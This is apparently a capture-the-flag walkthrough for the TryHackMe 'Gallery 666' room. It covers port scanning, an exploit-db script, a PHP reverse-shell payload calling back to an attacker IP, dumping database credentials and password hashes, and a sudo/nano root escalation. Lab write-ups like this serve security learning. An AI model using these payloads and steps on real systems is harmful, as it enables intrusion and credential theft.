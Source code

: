 ```yaml
---
layout: post
title: Walkthrough - Gallery 666
published: true
---
```


CMS, Linux, SQLi, RCE. Try to exploit our image gallery system

[https://tryhackme.com/room/gallery666](https://tryhackme.com/room/gallery666)

* * *

## Notes

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Simple Image Gallery System
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

* * * 

## How many ports are open?

- 2

* * * 

## What's the name of the CMS?

- Simple Image Gallery -  we can use ``/usr/share/exploitdb/exploits/php/webapps/50214.py`` to exploit
- edit the payload ``payload= "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/10.2.127.225/7777 0>&1'\"); ?>"`` and setup a listener to receive a shell

* * * 

## What's the hash password of the admin user?

- ``cat /var/www/html/gallery/initialize.php``

```
cat initialize.php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

- ``mysql -h localhost -p gallery_db -u gallery_user``
- ``show tables;``
- ``select * from users;``

* * * 

## What's the user flag?

- running linpeas.sh found something interesting

```
╔══════════╣ Searching passwords in history files
      @stats   = stats                                      
      @items   = { _seq_: 1  }
      @threads = { _seq_: "A" }
sudo -l b3stpassw0rdbr0xx
sudo -l
```

- use this to su to mike

* * * 

## Escalate to root

```
(remote) mike@gallery:/$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

- ``cat /opt/rootkit.sh``
- this shell script when set to read runs nano as sudo so we can use it to get root. Run the script and "read" and then ``^R^X`` then ``reset; sh 1>&0 2>&0`` to get root

![](/assets/gallery66601.png)

* * * 
